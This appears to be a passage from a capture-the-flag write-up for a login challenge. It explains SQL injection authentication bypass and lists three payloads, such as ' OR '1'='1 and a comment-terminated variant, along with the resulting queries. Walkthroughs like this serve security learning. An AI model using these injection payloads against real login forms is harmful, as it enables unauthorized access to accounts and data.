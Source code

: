 For this challenge, just **enter any input to the username and password**:

![test](./attachments/Chall5/test.png)

So, our goals here is to **inject the SQL query to always returns <code>TRUE</code>**. You can refer to the [PortSwigger](https://portswigger.net/web-security/sql-injection) page or [W3Schools](https://www.w3schools.com/sql/sql_injection.asp) to learn more about **SQLI Attacks**.

There's multiple way we can try to always make the query to return <code>TRUE</code>.

Payload 1:

<code>' OR '1'='1</code> both as username and password.

SQL Query:

```sql
SELECT username,password FROM users WHERE username='' OR '1'='1' AND password='' OR '1'='1'
```

Payload 2:

<code>' OR '1'='1' --</code> can be inject in the username, which make the rest of the query to be as comment.

SQL Query:

```sql
SELECT username,password FROM users WHERE username='' OR '1'='1' --' AND password='test'
```

Payload 3:

<code>admin</code> as username and <code>' OR '1'='1</code> as password.
